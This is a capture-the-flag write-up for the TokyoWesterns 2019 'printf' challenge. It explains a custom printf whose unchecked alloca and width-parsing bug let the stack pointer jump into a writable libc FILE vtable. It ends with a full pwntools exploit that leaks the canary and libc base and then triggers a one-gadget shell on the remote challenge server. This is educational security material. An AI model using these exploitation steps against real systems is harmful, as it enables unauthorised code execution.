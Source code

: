 printf was a pretty typical pwn task: you get binary, libc, network address,
and you have to gain an RCE. The vulnerability is an unsafe `alloca` which
allows one to cross the gap between stack and libraries.

## Binary

The gist of the `main` function is as follows:  
```c  
char buf[256];  
my_printf("What's your name?");  
v5 = read(0, buf, 0x100uLL);  
buf[v5 - 1] = 0;  
for (i = 0; i < v5 - 1; ++i) {  
 if (!isprint(buf[i]))  
   _exit(1);  
}  
my_printf("Hi, ");  
my_printf(buf);  
my_printf("Do you leave a comment?");  
buf[(signed int)((unsigned __int64)read(0, buf, 0x100uLL) - 1)] = 0;  
my_printf(buf);  
```

So `printf` is called twice with fully controllable format argument. The first
time the string is restricted to printable characters, and the second time
there're no restrictions.

Any CTF veteran knows that it looks like a classic format string bug, which
are now relatively rare compared to heap tasks :).

Obviously, you can leak stack variables using the `%lx|%lx|%lx|...` format
string. That defeats ASLR of stack, libc and binary itself.

However, the `printf` implementation is custom. It lacks `%n` specifier, and
have some unusual bugs instead.

It prints the string in two passes. In the first pass, it calculates the
string length, and allocates the buffer with `alloca`. During the second pass,
the data is printed to the buffer, and then the buffer is written out with
`puts`.

The bug is that the argument of `alloca` is unchecked. `alloca` compiles to
`sub rsp, rax` without any checks whatsoever. We can't make the length
negative, as it's thoroughly checked. But by specifying large width (e.g.
`%980794739896d`) we can make it very large so the stack pointer crosses the
unmapped gap between the stack and libc.

This might seem to be non-exploitable, as the function will crash when
attempting to fill the entire gap between libc and stack with data. Not to
mention that it will corrupt much more data than we want during the write to
libc.

Fortunately, the implemenation of width specifier is buggy, as it effectively
ignored during the second pass:  
```c  
v27 = number_of_digits(&fmt_[i_fmt]);  
i_fmt += v27;  
v55.width = my_atoi(&fmt_[i_fmt]);  
```

Here `i_fmt` should've been incremented _after_ the `atoi`. The way it's
written, however, the string that follows the width is interpreted as integer
instead. What follows the integer is not an integer, so `atoi` returns zero.

## Exploitation

How to exploit this, though?

The glibc is Ubuntu GLIBC 2.29-0ubuntu2, which corresponds to Ubuntu 19.04,
which is very new.

So there's no easy way to overwrite things like `atexit` handlers, stdout
virtual table, etc., as they're either mangled or checked.

For example, here's IO table being write-protected on my system:  
```  
pwndbg> p ((struct _IO_FILE_plus*)stdout)->vtable  
$8 = (const struct _IO_jump_t *) 0x7ffff7dcd360 <_IO_file_jumps>  
pwndbg> p _IO_file_jumps  
$9 = {  
 __dummy = 0,  
 __dummy2 = 0,  
 __finish = 0x7ffff7a8aba0 <_IO_new_file_finish>,  
 __overflow = 0x7ffff7a8b700 <_IO_new_file_overflow>,  
 __underflow = 0x7ffff7a8b400 <_IO_new_file_underflow>,  
 __uflow = 0x7ffff7a8c8e0 <__GI__IO_default_uflow>,  
 __pbackfail = 0x7ffff7a8e0e0 <__GI__IO_default_pbackfail>,  
 __xsputn = 0x7ffff7a8a6e0 <_IO_new_file_xsputn>,  
 __xsgetn = 0x7ffff7a8a200 <__GI__IO_file_xsgetn>,  
 __seekoff = 0x7ffff7a899e0 <_IO_new_file_seekoff>,  
 __seekpos = 0x7ffff7a8cd60 <_IO_default_seekpos>,  
 __setbuf = 0x7ffff7a89140 <_IO_new_file_setbuf>,  
 __sync = 0x7ffff7a88fe0 <_IO_new_file_sync>,  
 __doallocate = 0x7ffff7a7b9a0 <__GI__IO_file_doallocate>,  
 __read = 0x7ffff7a8a680 <__GI__IO_file_read>,  
 __write = 0x7ffff7a89ff0 <_IO_new_file_write>,  
 __seek = 0x7ffff7a89680 <__GI__IO_file_seek>,  
 __close = 0x7ffff7a89100 <__GI__IO_file_close>,  
 __stat = 0x7ffff7a89fb0 <__GI__IO_file_stat>,  
 __showmanyc = 0x7ffff7a8e340 <_IO_default_showmanyc>,  
 __imbue = 0x7ffff7a8e380 <_IO_default_imbue>  
}  
pwndbg> vmmap 0x7ffff7dcd360  
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA  
   0x7ffff7dcc000     0x7ffff7dd0000 r--p     4000 1c2000 /lib64/libc-2.29.so  
```

But let's re-check the binary provided with the task, _just in case_:  
```  
pwndbg> p &_IO_file_jumps  
$1 = (<data variable, no debug info> *) 0x7ffff7fc0560 <_IO_file_jumps>  
pwndbg> vmmap  0x7ffff7fc0560  
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA  
   0x7ffff7fbe000     0x7ffff7fc1000 rw-p     3000 1e3000
/home/wgh/ctf/tokyowesterns2019/printf/libc.so.6  
```

Wait, what, what, what? Why is default `FILE *` vtable is writable here?
This's supposed to be fixed a long time ago. Honestly, I have no idea why it
happened. The checksum corresponds to the correct Ubuntu package, we're not
dealing with custom build glibc. I don't have an answer.

Anyway, we can overwrite some stdout function pointers and gain RIP control
when `puts` is called. As usual, one-gadget-RCE can be employed.

The exploit is somewhat unstable locally, but works better when run against
the remote server (probably due to different stack layout regarding
environment variables, as it happens relatively often).

```python  
#!/usr/bin/env python2

from __future__ import print_function

from pwn import *

LOCAL = False  
#LOCAL = True

context.binary =
"./printf-60b0fcfbbb43400426aeae512008bab56879155df25c54037c1304227c43dab4"  
context.log_level = "debug"

libc_start_main_leak_offset = 7019 + 0x25000  
libc_filejumps_underflow_offset = 9600  
libc = ELF("libc.so.6")

if LOCAL:  
   p = process(["./ld-linux-x86-64.so.2", "--library-path", ".",
"./printf-60b0fcfbbb43400426aeae512008bab56879155df25c54037c1304227c43dab4"])  
else:  
   p = remote("printf.chal.ctf.westerns.tokyo", 10001)

def get_payload1():  
   res = " ".join("%lx" for _ in xrange(64))  
   assert len(res) <= 255  
   return res

p.recvuntil("What's your name?")  
p.sendline(get_payload1())  
p.recvuntil("Hi, ")  
leaks = p.recvuntil("Do you leave a comment?", drop=True)  
leaks = [int(x, 16) for x in leaks.split()]

offset_info = {  
   40: "main (canary)",  
   41: "main (RBP)",  
   42: "main RA (__libc_start_main)",  
}  
for i, addr in enumerate(leaks):  
   extra = ""  
   if i in offset_info:  
       extra = " %s" % offset_info[i]

log.info("%d: 0x%016x%s", i, addr, extra)

leaked_canary = leaks[40]  
leaked_libc = leaks[42] - libc_start_main_leak_offset  
main_buf = leaks[39] - 496 + 8

log.info("canary: 0x%016x", leaked_canary)  
log.info("libc base: 0x%016x", leaked_libc)  
log.info("main_buf: 0x%016x", main_buf)

#gdb.attach(p, """  
#    breakrva 0x1C85
printf-60b0fcfbbb43400426aeae512008bab56879155df25c54037c1304227c43dab4  
#    breakrva 0x1C97
printf-60b0fcfbbb43400426aeae512008bab56879155df25c54037c1304227c43dab4  
#  
#    b system  
#""")

desired_address = leaked_libc + 0x1e6588 - 0x10

one_gadget = leaked_libc + 0x106ef8  
#one_gadget = leaked_libc + libc.sym["system"]  
log.info("one_gadget=0x%016x", one_gadget)

payload = b""  
payload += "%{}d".format(main_buf - 416 - desired_address)  
payload += "A" * (0x10-2)  
payload += p64(one_gadget).rstrip(b'\0')

log.info("len(payload)=%d", len(payload))

p.sendline(payload)

p.interactive()  
```

Original writeup (https://blog.bushwhackers.ru/tokyo2019-printf/).